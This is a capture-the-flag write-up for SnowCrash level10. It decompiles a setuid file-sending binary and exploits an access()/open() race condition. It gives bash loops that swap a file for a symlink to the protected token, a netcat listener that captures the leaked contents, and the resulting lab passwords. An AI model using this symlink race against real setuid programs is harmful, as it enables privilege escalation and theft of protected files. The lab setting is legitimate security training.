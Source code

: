 # level10
This one is my favorite

- We login as user level10.
```
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```


- A binary has been left for us. Let's take a closer look at this binary using [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File level10.c:
int main(int, char **);

Non-debugging symbols:
0x080484d0  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
    HUGE CODE
End of assembler dump.

(gdb) q
```


- Let's save time, we can use [Ghidra](https://en.wikipedia.org/wiki/Ghidra) to get an interpretation of the source code of this binary.
```c
int main(int argc,char **argv)
{
  ...  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*in_stack_00000008);
    exit(1);
  }

  pcVar6 = (char *)in_stack_00000008[1];
  __cp = (char *)in_stack_00000008[2];

  iVar2 = access(pcVar6,4);
  if (iVar2 != 0) {
    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
  }
  else {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    ...
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    ...

    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
      exit(1);
    }

    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
      exit(1);
    }

    printf("Connected!\nSending file .. ");
    fflush(stdout);

    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
      exit(1);
    }

    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
      exit(1);
    }

    write(iVar2,local_1024,__n);
    iVar2 = puts("wrote file!");
  }

  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail();
  }
  return iVar2;
}
```


- We can see that the program makes a call to `access(argv[1])`. If this call succeeds, it will attempt to establish a socket connection to `argv[2]` through port 6969 in order to send the content of the file named `argv[1]`.


- Given that `access()` does not consider [the setuid and setgid bits](https://en.wikipedia.org/wiki/Setuid) when checking permissions, the program displays `You don't have access to the token` and then terminates.


- Note that [the call to access(), directly followed by a call to open(), is the subject of a security vulnerability](https://vulncat.fortify.com/en/detail?id=desc.controlflow.cpp.file_access_race_condition#C%2FC%2B%2B).
Indeed, between the time when the program calls `access(our_file)` and the time when it calls `open(our_file)`, it is possible for us to replace `our_file` with a file of the same name, but which would be a symbolic link to another file. As a result, the program will rely on the return of `access(our_file)` to determine whether it can `open(our_file)` or not.


- Thus, we will need 3 terminals. The first one will run `nc -lk 6969 > /tmp/pwn.log` to listen on all IPs through port 6969 and store everything it receives in `/tmp/pwn.log`.


- In a `while true` loop, the second part script creates a file accessible for reading, deletes it, and then creates a symbolic link with the same name, pointing to `/home/user/level10/token`.
```bash
#!/bin/bash
while true
do
	touch /tmp/exploit
	rm /tmp/exploit
	ln -s /home/user/level10/token /tmp/exploit
	rm /tmp/exploit
done
```


- The latter will run our binary in a loop, passing the readable file as a parameter to it.
```bash
#!/bin/bash
while true
do
	/home/user/level10/level10 "/tmp/exploit" "127.0.0.1"
done
```


- Thus:
```
level10@SnowCrash:~$ cat /tmp/pwn.log | grep -v ".*( )*."
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
...
```

```
level10@SnowCrash:~$ su flag10
Password:woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
```

```
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

```
flag10@SnowCrash:~$ su level11
Password:feulo4b72j7edeahuete3no7c
level11@SnowCrash:~$
```